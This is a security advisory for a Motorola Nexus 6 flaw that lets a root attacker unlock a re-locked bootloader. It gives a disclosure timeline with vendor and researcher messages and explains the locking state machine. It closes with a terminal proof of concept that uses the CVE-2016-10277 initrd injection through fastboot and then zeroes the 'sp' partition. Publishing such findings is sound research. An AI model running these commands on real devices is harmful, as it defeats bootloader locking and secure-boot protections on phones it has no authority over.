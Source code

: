 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-05'
    - type: 'report'
      date: '2017-06-05'
      arg: 'Android Security'
    - type: 'deadline'
      date: '2017-06-12'
    - type: 'deadline-extension'
      date: '2017-08-14'
    - type: 'vendor-initial-triage'
      date: '2017-06-13'
      arg: 'Moderate'
    - type: 'vendor-msg'
      date: '2017-06-29'
      msg: '...we confirm that in this scenario an attacker could unlock the bootloader. However, the prerequisite of execution as root and in an SELinux domain that allows for block device writes would also be sufficient to overwrite the bootloader chain, boot, and system image partition on a Nexus 6. Therefore, there is no elevation of privilege beyond that which the attacker could already accomplish. Please let us know if you feel otherwise...'
    - type: 'researcher-msg'
      date: '2017-07-02'
      msg: "...I agree with your observation that being able to write on the `sp` partition, like we achieve with @CVE-2016-10277, means running in an SELinux domain that allows for block device writes, thus being able to flash the listed partitions. However, due to secure boot, the attacker cannot make the system successfully boot with a tampered bootloader chain (SBL, ABOOT). Trying to do so ends in the EDL. Although it's possible for Nexus 6 to load with a tampered boot and recovery images, they are expected to run a TZ state less capable than of ABOOT => code running in ABOOT can be more capable than code running in the platform OS => having ABOOT unlocked (which may increase its capabilities, allow more commands, etc) may elevate the privileges of the adversary, comparing with what he can achieve by having full control over boot/recovery/system..."
    - type: 'vendor-triage'
      date: '2017-07-11'
      msg: '...We’ve reviewed the information provided and our conclusion is that given the privileges required to execute the attack, we do not believe that there is an elevation of privilege that would meet the severity bar for inclusion in an Android security bulletin...'
    - type: 'release'
      date: '2017-08-15'
      arg: "USENIX WOOT '17"
    - type: 'release'
      date: '2017-08-30'
      arg: "alephsecurity.com"

product:
    - Google Nexus 6
alephid: ALEPH-2017024
androidid: 62345923
date: '2017-08-30'
reportedto: 'Android Security'
title: 'Motorola Android Bootloader Unlocking a Re-locked Bootloader from Platform OS'
references:
    - src: 'Unlocking the Motorola Bootloader'
      url:  http://blog.azimuthsecurity.com/2013/04/unlocking-motorola-bootloader.html
    - src: "fastboot oem vuln: Android Bootloader Vulnerabilities in Vendor Customizations (USENIX WOOT '17)"
      url:  https://www.usenix.org/conference/woot17/workshop-program/presentation/hay
---
```


Back in 2013, Dan Rosenberg found a vulnerability in the Motorola TrustZone kernel, allowing him to unlock the Motorola bootloader. [In his blog](http://blog.azimuthsecurity.com/2013/04/unlocking-motorola-bootloader.html), Dan depicted how Motorola implemented bootloader locking (also relevant for `shamu`), which can be summarized as the following state machine:
 ```
 .---------.
 | Factory |       .----------.
 | Locked  | --->  | Unlocked |  <---.  (3)
 `---------' (1)   `-----.----'      |      
                         |      .-----------.
                         `----> | Re-locked |
                           (2)  `-----------'
 ```
 The transitions are as follows:
 
1. The user first unlocks the device. The `WARRANTYVOID` qfuse is blown. This transition is governed by TEE thus it cannot be done from the Platform OS. 
2. User re-locks the device. Bootloader writes an entry under the `sp` partition, with an HMAC produced by TEE.
3. User unlocks the device. Bootloader removes that entry.
 
 *Conclusion:* An unrestricted root (as one could gain by exploiting @CVE-2016-10277) can unlock a re-locked bootloader by invalidating the `sp` partition.
 
 ```terminal
 $ fastboot getvar all
 ...
 (bootloader) secure: yes
 (bootloader) unlocked: no
 (bootloader) securestate: locked
 (bootloader) iswarrantyvoid: yes
 (bootloader) mot_sst: 2
 
 $ fastboot oem config fsg-id "a initrd=0x11000000,1519997"
 $ fastboot flash foo initroot.cpio.gz
 $ fastboot continue
 
 $ adb shell
 shamu:/ # echo 0 > /dev/block/platform/msm_sdcc.1/by-name/sp
 shamu:/ # reboot bootloader
 
 $ fastboot getvar all
 ...
 (bootloader) unlocked: yes
 (bootloader) securestate: unlocked
 (bootloader) iswarrantyvoid: yes
 (bootloader) mot_sst: 3
 ```
